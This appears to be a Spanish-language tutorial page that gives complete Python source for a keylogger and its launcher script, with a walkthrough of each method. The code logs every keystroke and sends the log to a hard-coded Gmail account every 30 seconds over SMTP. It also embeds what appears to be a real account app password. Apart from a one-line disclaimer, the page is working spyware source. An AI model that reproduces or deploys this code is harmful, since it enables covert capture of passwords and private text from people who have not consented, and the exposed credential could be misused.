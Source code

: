## Keylogger
```python
#!/usr/bin/env python3

import pynput.keyboard
import threading
import smtplib
import keyboard
from termcolor import colored
from email.mime.text import MIMEText



class Keylogger:

  def __init__(self):
    self.log=""
    self.list_log=[]
    self.request_shutdown= False
    self.timer=None
    self.is_first_run=True
    self.is_mayus=True


  def pressed_key(self,key):
    if keyboard.is_pressed('caps lock'):
      if not self.is_mayus:
        self.is_mayus=True
      elif self.is_mayus:
        self.is_mayus=False

    try:
      if self.is_mayus:
        self.list_log.append(key.char)
        self.log=''.join(self.list_log)
      else:
        self.list_log.append(key.char.upper())
        self.log=''.join(self.list_log)
    except AttributeError:
      special_keys= {key.space: " ",key.caps_lock: "" , key.enter: " Enter ", key.shift: " Shift ",key.ctrl:" Ctrl ", key.alt: " Alt "}
      if key != key.backspace:
        self.list_log.append(special_keys.get(key,f" {str(key)} "))
        self.log=''.join(self.list_log)
      elif key == key.backspace:
        try:
          self.list_log.pop()
          self.log=''.join(self.list_log)
        except:
          self.list_log.clear()
          self.log=''.join(self.list_log)



  def send_email(self,subject,body,sender,recipients,password):
    msg=MIMEText(body)
    msg['Subject'] = subject
    msg['From']= sender
    msg['To']= ', '.join(recipients)

    with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
      smtp_server.login(sender,password)
      smtp_server.sendmail(sender,recipients,msg.as_string())


  def report(self):
    email_body= "[+] El keylogger se ha iniciado exitosamente" if self.is_first_run else self.log
    self.send_email("Keylogger Report", email_body, "nockeylogger@gmail.com", ["nockeylogger@gmail.com"], "ezro xvah ctgy qhlt")
    self.list_log.clear()
    self.log= ""

    if self.is_first_run:
      self.is_first_run=False

    if not self.request_shutdown:
      self.timer= threading.Timer(30, self.report)
      self.timer.start()

  def shutdown(self):
    self.request_shutdown=True
    if self.timer:
      self.timer.cancel()


  def start(self):
    keyboard_listener = pynput.keyboard.Listener(on_press=self.pressed_key)
    with keyboard_listener: 
      self.report()
      keyboard_listener.join()
```
---------------
## Explicación
1. **Inicialización de la Clase `Keylogger`**:
    - El método `__init__` define las variables principales, incluida `log` para almacenar las teclas presionadas y `list_log` para almacenarlas en una lista. `request_shutdown` permite la detención del keylogger, y `timer` maneja los envíos de correo periódico.
2. **Detección de Teclas Pulsadas**:
    - El método `pressed_key` identifica si `caps lock` está activo para alternar entre mayúsculas y minúsculas.
    - Intenta agregar letras a `list_log`, convirtiéndolas en mayúsculas si `caps lock` está desactivado.
    - Las teclas especiales (como `espacio`, `enter`, `shift`, `ctrl`, `alt`) se agregan al log con etiquetas descriptivas.
    - Si se presiona `backspace`, elimina la última entrada en `list_log` para reflejar la corrección, manteniendo el log actualizado.
3. **Envío de Correos Electrónicos**:
    - El método `send_email` toma un asunto, cuerpo, dirección de envío y contraseña, y utiliza `smtplib` para conectarse al servidor de Gmail a través de `SMTP_SSL` en el puerto 465.
    - Envía el contenido de `log` como mensaje de correo electrónico a los destinatarios configurados.
4. **Reporte y Envío Periódico**:
    - El método `report` envía un informe inicial y luego el contenido de `log` en intervalos de 30 segundos, ejecutando `send_email` con el contenido actual de `log`.
    - Luego de cada envío, limpia `list_log` y `log`.
    - Si `request_shutdown` está activado, detiene el temporizador; de lo contrario, lo reactiva para el siguiente envío.
5. **Detención del Keylogger**:
    - El método `shutdown` establece `request_shutdown` como `True`, y si el temporizador está activo, lo cancela.
6. **Inicio y Escucha del Keylogger**:
    - El método `start` crea un listener de teclado usando `pynput`, enviando cada pulsación de tecla a `pressed_key`.
    - Con `with keyboard_listener`, se asegura que el listener se cierre automáticamente si falla la conexión o se interrumpe la escucha.

Este script captura y envía pulsaciones de teclas de forma continua hasta que se detenga manualmente. Está diseñado para pruebas de seguridad, pero debe usarse en entornos controlados y con consentimiento.

--------------
## Main
```python
#!/usr/bin/env python3

from termcolor import colored
from keylogger import Keylogger
import signal
import sys



def def_handler(sig,frame):
  print(colored(f"\n[!] Saliendo...\n", "red"))
  my_keylogger.shutdown()
  sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


if __name__=='__main__':
  my_keylogger=Keylogger()
  my_keylogger.start()
```
-----------------
## Explicación
1. **Importación de Librerías y Clases**:
    - Se importa `Keylogger` desde el módulo `keylogger` (que corresponde al código de la clase `Keylogger` anterior).
    - También se importa `signal` para capturar interrupciones (como `Ctrl+C`) y `sys` para realizar una salida controlada.
2. **Definición de la Señal de Salida**:
    - La función `def_handler` se configura para interceptar `SIGINT` (Ctrl+C).
    - Al activarse, esta función imprime un mensaje de salida, llama al método `shutdown` de `Keylogger` para detener el temporizador y detener la escucha de teclas, y luego finaliza el programa.
3. **Inicio del Keylogger**:
    - En el bloque principal (`if __name__ == '__main__':`), se crea una instancia de `Keylogger` llamada `my_keylogger`.
    - Luego, `my_keylogger.start()` inicia la captura de teclas y el envío periódico de logs mediante el método `start` definido en la clase `Keylogger`.

Este script funciona como el **punto de inicio** para el keylogger, estableciendo la captura de interrupciones para detenerlo de forma limpia y segura cuando el usuario lo desee. Al final, el keylogger estará funcionando en segundo plano hasta que el usuario lo detenga manualmente.